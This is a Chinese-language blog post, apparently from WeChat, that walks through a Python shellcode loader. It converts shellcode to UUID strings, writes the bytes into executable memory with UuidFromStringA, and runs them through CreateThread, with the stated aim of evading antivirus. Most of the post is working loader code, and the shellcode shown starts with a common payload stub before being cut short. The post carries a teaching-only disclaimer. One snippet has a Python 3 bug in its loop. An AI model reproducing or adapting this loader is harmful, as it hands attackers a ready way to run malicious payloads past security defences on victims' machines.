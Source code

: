 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/TdRAiRuts0rSNOKqZxzzmw)

![](https://mmbiz.qpic.cn/mmbiz_jpg/zbTIZGJWWSPAlJwBIfrwAX1YiblLO82ANtoBIlvmT4zvhib5REPULYwmb6KpsiaWkXgO1ZhibA5UYWkGE9GsLktPmA/640?wx_fmt=jpeg)  

一位苦于信息安全的萌新小白帽

本实验仅用于信息防御教学，切勿用于它用途

公众号：XG 小刚

UUID 加载器  

前几天看到一个加载器很有意思，通过 UUID 转换方式将 shellcode 写入内存中  

loader 只有 C 语言的，今天用 python 尝试复现一下  

虽然不咋的免杀了，但可以扩宽我们将 shellcode 写入内存的知识面，条条大路通罗马啊

**（附视频↓↓↓）**

UUID 是啥

(我也不知道，百度的)

UUID: 通用唯一标识符 ( Universally Unique Identifier ), 对于所有的 UUID 它可以保证在空间和时间上的唯一性. 它是通过 MAC 地址, 时间戳, 命名空间, 随机数, 伪随机数来保证生成 ID 的唯一性, 有着固定的大小 (128 bit). 它的唯一性和一致性特点使得可以无需注册过程就能够产生一个新的 UUID. UUID 可以被用作多种用途, 既可以用来短时间内标记一个对象, 也可以可靠的辨别网络中的持久性对象.

字节转换 UUID

python 有根据十六进制字符串生成 UUID 的函数 uuid.UUID()  

https://docs.python.org/3/library/uuid.html

注意 16 个字节转换一个 uuid 值，\x00 是一个字节

当剩余字节数不满 16 个可添加 \x00 补充字节数

但注意啊！必须将全部的 shellcode 全部转化为 uuid

```
import uuid

scode = b'''\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\......'''
list = []
for i in range(len(scode)/16):
     bytes_a = scode[i*16:16+i*16]
     b = uuid.UUID(bytes_le=bytes_a)
     list.append(str(b))
print(list)
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSPAlJwBIfrwAX1YiblLO82ANMlFU0nZY4byDwx2B8jMYL93ERiaf5wvL76xqmVKIibaC22U5S3tMbEqw/640?wx_fmt=png)

UUID 写入内存

将普通的内存加载器改了改，能用就行  

主要是了解 uuid 写入内存的实现过程

下面已经将 shellcode 转为了 uuid，并放在列表中

```
import ctypes
import requests
import base64

shellcode = ['e48348fc-e8f0-00c8-0000-415141505251', 'd2314856-4865-528b-6048-8b5218488b52'.......]
```

申请内存，注意申请内存的大小 len(shellcode)*16

有多少 uuid 值，它的 16 倍就是需要的内存大小

```
rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode)*16, 0x1000, 0x40)
```

通过 UuidFromStringA 函数，将 uuid 值转为二进制并写进内存中去。

函数原型：https://docs.microsoft.com/en-us/windows/win32/api/rpcdce/nf-rpcdce-uuidfromstringw

rwxpage1 是内存指针，表示从指定指针位置写入。

rwxpage1+=16 是控制指针的走路，每写入一个 uuid 二进制需要将指针移动 16 个字节，直到将 shellcode 全部写入

```
rwxpage1 = rwxpage
for i in list:
    ctypes.windll.Rpcrt4.UuidFromStringA(i,rwxpage1)
    rwxpage1+=16
```

shellcode 全部写入内存了，然后创建线程运行即可。  

```
handle = ctypes.windll.kernel32.CreateThread(0, 0, rwxpage, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
```

**详细操作可看录屏（建议电脑播放）**